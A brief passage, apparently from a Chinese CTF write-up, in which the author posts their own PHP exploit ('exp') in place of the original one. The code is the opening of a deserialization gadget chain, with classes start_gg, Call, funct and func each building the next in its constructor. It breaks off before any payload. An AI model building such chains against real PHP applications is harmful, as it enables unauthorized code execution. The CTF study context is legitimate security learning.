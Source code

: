  

原文的那个exp我感觉有点繁琐还是贴我自己写的吧

 

```
 <?php

class start_gg{

  public $mod1;

  public $mod2;

  public function __construct(){

    $this->mod1=new Call();

  }

  

}

class Call{

  public $mod1;

  public $mod2;

  public function __construct(){

    $this->mod1=new funct();

  }

}

class funct{

  public $mod1;

  public $mod2;

  public function __construct(){

    $this->mod1=new func();

  }

}

class func{

  public $mod1;

  public $mod2;

  public function __construct(){

    $this->mod1=new string1();

  }

}
```